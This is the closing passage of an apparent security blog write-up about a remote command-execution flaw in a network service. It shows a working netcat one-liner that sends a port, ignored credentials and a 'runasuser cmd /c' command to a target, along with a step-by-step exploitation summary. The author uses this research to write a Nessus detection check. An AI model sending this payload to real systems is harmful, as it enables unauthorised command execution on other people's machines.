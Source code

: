 ```
<font color="#00FF00">ron@armitage</font> <font color="#8080FF">~ $</font> echo -ne "12345\0myuser\0mypass\0runasuser cmd /c \"ipconfig > c:\\myfile\"\0" | nc -vv 192.168.1.112 1234
192.168.1.112: inverse host lookup failed: 
(UNKNOWN) [192.168.1.112] 1234 (?) open
 sent 60, rcvd 1
```

And check the file:  
![](http://skullsecurity.org/blogdata/36-remoteexec-success.png)

Yup, works like a charm! (Don't mind the bad ip address - I took some of these screenshots at different times than others)

I change the code a little bit to point to the Web root and give it a go, and sure enough it works. With that, I can now write a proper check for Nessus. And with that, I'm done.

## Summary

So, the TL;DR version of this is:

- Connect to the host
- Send it a port number, following by a null byte ("\\0") - the host will try to connect back on that port
- Send a username and a password, each terminated by a null byte - these will be ignored
- Send a command using the "runasuser.exe" program - included
- Profit!